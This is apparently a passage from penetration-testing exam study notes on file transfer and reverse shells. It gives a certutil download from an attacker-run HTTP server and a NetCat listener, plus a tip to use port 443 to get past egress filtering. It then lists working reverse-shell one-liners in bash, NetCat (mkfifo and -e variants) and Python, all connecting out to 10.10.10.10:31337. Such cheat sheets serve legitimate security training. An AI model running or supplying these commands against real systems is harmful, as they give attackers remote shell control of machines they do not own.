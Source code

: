 ```bash
# In Kali
python -m SimpleHTTPServer 80

# In reverse shell
certutil.exe -urlcache -split -f "http://10.10.10.10/file.txt" file.txt
```

---
# Reverse Shells
## Catching Reverse Shells
  - Because metasploit usage is limited in the exam, we will stick to basic NetCat receivers

```bash
nc -nvlp 31337
```
{{% alert note %}}
On some machines you will find that outbound traffic is whitelisted to certain ports. If your reverse shell isn't reaching the NetCat listener, try using a port such as 443 that is less likely to be blocked.
{{% /alert %}}


## Using Tools Present
{{% alert note %}}
While these examples are tailored to Unix systems, some of these will also work by substituting `/bin/bash` with `cmd.exe`
{{% /alert %}}

  - Bash

```bash
bash -i >& /dev/tcp/10.10.10.10/31337 0>&1
```

  - Netcat without -e flag

```bash 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 31337 >/tmp/f
```

  - Netcat with -e flag

```bash
nc -e /bin/bash 10.10.10.10 31337
```

  - Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
  